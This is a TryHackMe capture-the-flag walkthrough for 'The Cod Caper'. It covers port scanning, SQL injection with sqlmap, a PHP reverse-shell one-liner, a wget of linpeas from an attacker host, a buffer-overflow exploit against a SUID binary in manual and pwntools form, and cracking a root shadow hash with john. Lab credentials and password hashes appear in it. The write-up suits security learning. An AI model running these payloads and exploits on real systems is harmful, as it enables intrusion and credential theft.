








# The Cod Caper

## nmap

The first step is to see what ports and services are running on the target machine.

Recommended Tool - nmap:

```
nmap -sC -sV -oN nmap/initial.txt 10.10.148.170
```

RESULTS:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-01 18:22 CDT
Nmap scan report for 10.10.148.170
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.87 seconds
```

## gobuster 

Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

Recommended tool: gobuster

```
gobuster dir -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u 10.10.148.170 
-x txt,php,js,py,html | tee -a gobuster/gobuster.txt
```

RESULTS:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.170
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,js,py,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htpasswd.js         (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.py         (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htaccess.py         (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/administrator.php    (Status: 200) [Size: 409]
```

One interesting file that pops up is `administrator.php`!
We have a login form:


## sqlmap

The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection.

Recommended Tool: sqlmap

Let's look at the HTML first!


```
sqlmap -u http://10.10.18.5/administrator.php -dump --form
```

RESULTS:

```
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

We found out that the form is SQLI vulnerable and we got the credentials!

It seems like we got a new page where we can run commands on the server!


## command execution

Let's run a few test commands, and then try to gain access!

### Method 1: nc Reverse shell

This machine has been outfitted with nc, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell. Some great places to find reverse shell payloads are [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)and [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

We can run basic commands!




It seems like we have php!


We use the following snippet of code on the server cmd line!
```
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

And, we have shell access now!


Use the following command to stabilize the basic netcat shell!
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Also background the sessions and run the following:
```
^Z (Ctrl + z backgrounds the session)
stty raw -echo; fg
export SHELL=bash
export TERM=xterm
```

It seems that we have access to the .ssh keys of the `pingu` user!
That means we could try to login to his account and see what is accessible to
us! Copy and paste the id_rsa private key to your own computer and try to access
the victim using `ssh -i /path/to/id_rsa user@remote_host`

SSH failed!
I was able to find the public and private keys, but they failed for some reason!

We can use the following command to see what kind of interesting files the
system has:
```
find / -name "*pass*" -type f 2>/dev/null
```

Something stood out!
```
/var/hidden/pass
```
The file above contains the string `pinguapingu`! Let's try it on ssh!


## SSH and LinEnum

We are able to successfully ssh into the target using the password above!
Now, let's see if we can escalate our privileges using LinEnum!

LinEnum is a bash script that searches for possible ways to priv esc. It is incredibly popular due to the sheer amount of possible methods that it checks for, and often times Linenum is one of the first things to try when you get shell access.

Methods to get Linenum on the system

### Method 1: SCP

Since you have ssh access on the machine you can use SCP to copy files over. In the case of Linenum you would run `scp {path to linenum} {user}@{host}:{path}`. Example: `scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp`
 would put LinEnum in /tmp.

### Method 2: SimpleHTTPServer

SimpleHTTPServer is a module that hosts a basic webserver on your host machine. Assuming the machine you compromised has a way to remotely download files, you can host LinEnum and download it.

Note: There are numerous ways to do this! 

Once You have LinEnum on the system, its as simple as running it and looking at the output above once it finishes.

```
www-data@ubuntu:/home/pingu/.ssh$ wget http://10.21.44.172:8080/linpeas.sh
--2024-10-02 13:39:40--  http://10.21.44.172:8080/linpeas.sh
Connecting to 10.21.44.172:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [application/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 805.61K   596KB/s    in 1.4s

2024-10-02 13:39:42 (596 KB/s) - 'linpeas.sh' saved [824942/824942]
```

We can run linpeas by typing `./linpeas.sh`

Let's see if there are any privesc vector!

```
/opt/secret/root
```
The file above has SUID bit set!

## pwndbg

This given CTF challenge gives us the source code for the above program:
```
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
```

The SUID file seems to expect 32 characters of input, and then immediately exits.
This seems to warrant further investigation. pwndbg is a plugin for GDB which 
allows you to better examine binary files.

Run `gdb /opt/secret/root`:

RESULTS:

```
pingu@ubuntu:~$ gdb /opt/secret/root
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 178 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from /opt/secret/root...(no debugging symbols found)...done.
pwndbg>
```

This means that pwndbg has successfully been initialized. The next step is to test if anything happens when you send more then 32 characters. To do this type `r < <(cyclic 50)`, that command runs the program and provides 50 characters worth of "cyclic" input.

Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf" etc. Because it's in this "cyclic" format, it allows us to better understand the control we have over certain registers, for reasons you are about to see.

Once you run that command you should see something similar to this:

```
Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────
 EAX  0x1
 EBX  0x0
 ECX  0x1
 EDX  0xf76d587c (_IO_stdfile_0_lock) ◂— 0
 EDI  0xf76d4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf76d4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x6161616b ('kaaa')
 ESP  0xffb1a5e0 ◂— 0xf700616d /* 'ma' */
 EIP  0x6161616c ('laaa')
────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c


─────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffb1a5e0 ◂— 0xf700616d /* 'ma' */
01:0004│      0xffb1a5e4 —▸ 0xffb1a600 ◂— 0x1
02:0008│      0xffb1a5e8 ◂— 0x0
03:000c│      0xffb1a5ec —▸ 0xf753a637 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xffb1a5f0 —▸ 0xf76d4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
... ↓
06:0018│      0xffb1a5f8 ◂— 0x0
07:001c│      0xffb1a5fc —▸ 0xf753a637 (__libc_start_main+247) ◂— add    esp, 0x10
───────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────
 ► f 0 6161616c
   f 1 f700616d
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```

Now this is where some knowledge of assembly helps. It seems that in this case we're able to overwrite EIP, which is known as the instruction pointer. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time.

Recall the shell function from the source code, if we can overwrite EIP to point to the shell function, we can cause it to execute. This is also where the benefits of cyclic input show themselves. Recall that cyclic input goes in 4 character/byte sequences, meaning we're able to calculate exactly how many characters we need to provide before we can overwrite EIP.

Luckily cyclic provides this functionality with the -l flag, running cyclic -l {fault address} will tell us exactly how many characters we need to provide we can overwrite EIP.

Running `cyclic -l 0x6161616c` outputs 44, meaning we can overwrite EIP once we provide 44 characters of input.

That's all we needed for pre-explotation!


## Binary-Exploitaion: Manually

Previously we figured out that we need to provide 44 characters of input, and
then we can execute whatever part of the program we want. Now the next step is
to find out exactly where the shell function is in memory so we know what to set
EIP to. GDB supports this as well with the disassemble command. Type
`disassemble shell`, and this should pop up:

```
Dump of assembler code for function shell:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x3e8
   0x080484d9 <+14>:    call   0x80483a0 <setuid@plt>
   0x080484de <+19>:    add    esp,0x10
   0x080484e1 <+22>:    sub    esp,0xc
   0x080484e4 <+25>:    push   0x3e8
   0x080484e9 <+30>:    call   0x8048370 <setgid@plt>
   0x080484ee <+35>:    add    esp,0x10
   0x080484f1 <+38>:    sub    esp,0xc
   0x080484f4 <+41>:    push   0x80485d0
   0x080484f9 <+46>:    call   0x8048380 <system@plt>
   0x080484fe <+51>:    add    esp,0x10
   0x08048501 <+54>:    nop
   0x08048502 <+55>:    leave
   0x08048503 <+56>:    ret
End of assembler dump.
```

What we're interested in is the hex memory addresses. So from what we know all we have to do is provide 44 characters, and then "0x080484cb" and the shell function should execute, let's try it!

Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"

We can use python to do this, as it allows a nice way of converting.

### Method 1 - Manual conversion:

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"'` will output the payload we want, but it requires manually converting to little endian

### Method 2 - Struct:

`python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'`

It requires importing a module but struct.pack allows us to automatically convert memory to little endian.

We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary `python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` should provide you with this output.

```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
```

WE DID IT! We were able to exploit the program by overflowing its buffer!


## Binary Exploitation: The pwntools way

Pwntools is a python library dedicated to making everything we just did in the last task much simpler. However, since it is a library, it requires python knowledge to use to it's full potential, and as such everything in this task will be done using a python script.

We start off the script with:

```
from pwn import *
proc = process('/opt/secret/root')
```

This imports all the utilities from the pwntools library so we can use them in our script, and then creates a process that we can interact with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF().

ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.

With the ELF addition our script becomes

```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```


shell_func holds the memory address of our shell function. Now we need a way to form the payload, luckily pwntools has that to with fit().

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our proc variable, proc.sendline(), which just sends whatever data we want to the binary. Finally we can use proc.interactive(), to view the full output of the process.

With all that our final exploit script becomes

```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

Save that to a .py file and run it, and you should get this output:

```
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache-2.7/update to 'never'.
[!] An issue occurred while checking PyPI
[*] You have the latest version of Pwntools (4.0.0)
[+] Starting local process '/opt/secret/root': pid 1122
[*] '/opt/secret/root'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] Switching to interactive mode
[*] Process '/opt/secret/root' stopped with exit code -11 (SIGSEGV) (pid 1122)
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
[*] Got EOF while reading in interactive
$
```

So, yeah, we did it again!!!


## crack the root password hash

We know the hash for the root password:
`$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`

Now what?

First save that hash to a file called `pass.txt`

Then we can try to crack it using a wordlist:

```
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt pass.txt
```

Here are the results:

```
Created directory: /home/aghayev3/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
love2fish        (?)
1g 0:00:00:45 DONE (2024-10-03 14:11) 0.02185g/s 5258p/s 5258c/s 5258C/s lucinha..lailaa
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So, `love2fish` is the password? Let's try to change to root user by typing `su
root` and provide this password! It works! We rooted the system!




**All credit for helping when I got stuck goes to ChatGPT and https://synackodes.medium.com/the-cod-caper-tryhackme-a-write-up-5a401609d7e2
Some of the text I used here in this walkthrough is from TryHackMe itself, since
they have the best wording, so I didn't change it much!
(https://tryhackme.com/r/room/thecodcaper)**
